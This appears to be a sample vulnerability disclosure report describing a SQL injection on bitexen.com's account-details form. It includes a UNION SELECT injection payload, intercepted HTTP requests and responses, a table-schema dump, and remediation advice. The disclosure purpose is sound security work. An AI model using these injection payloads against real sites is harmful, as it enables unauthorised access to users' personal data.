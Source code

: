 # SQL Injection - bitexen.com

## Researcher Information

Hello, I am Zeynep. You can access me at zeynep@example.com. My HackerOne account is "zeynep".

## Issue Description and Summary

I malformed the requests of the web page with Burp to successfully run SQL queries. I checked the table schemas in the database but did not access any data thinking there could be sensitive information there. There was column names like account e-mail and phone number.

## Affected URLs / Applications

- Domain bitexen.com

## Risk Category

- Risk: Critical
- Risk: Disclosure of sensitive user information (national identity, physical address, phone number)
- CVSS v3 score: 9.8 CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Steps to Reproduce / PoC

- Login to your Bitexen account, change account details, press "Save"
- Intercept the request with Burp or other proxy tools
- Change the POST data of the request from `username=example` to `username=example' UNION SELECT sum(columnname ) from tablename --`
- Send the request and watch the response

- Original request

        POST https://bitexen.com/application/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data

- Original response

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        OK

- Malformed request

        POST https://bitexen.com/application/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data' UNION SELECT sum(columnname ) from tablename --

- Response for malformed request

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        5

- This time, the same request is sent by entering `DESCRIBE bitexen_db.users`. It can be seen that the database and the tables can be accessed.

        +-------+--------------+------+-----+---------+-------+
        | Field | Type         | Null | Key | Default | Extra |
        +-------+--------------+------+-----+---------+-------+
        | id    | int(11)      | YES  | MUL | NULL    |       |
        | Name  | varchar(100) | YES  | MUL | NULL    |       |
        +-------+--------------+------+-----+---------+-------+
        2 rows in set (0.05 sec)

Screeshots:

- Screenshot 1
- Screenshot 2

## Impact

An attacker can access sensitive user information. It is not possible to hijack user accounts due to no passwords seem to be in the database but the information which can be accessed is critical. The data can also be edited or deleted by the attacker.

## Remediation Suggestions / Supporting Material / References

Instead of creating SQL queries from the user input, parameterized API can be used. If this option is not feasible, the user input must be sanitized before creating SQL queries. Also, the permissions of the SQL service and account should be limited.

Resources:

- <https://www.w3schools.com/sql/sql_injection.asp>
- <https://portswigger.net/web-security/sql-injection>
- <https://owasp.org/www-community/attacks/SQL_Injection>
- <https://www.acunetix.com/websitesecurity/sql-injection/>
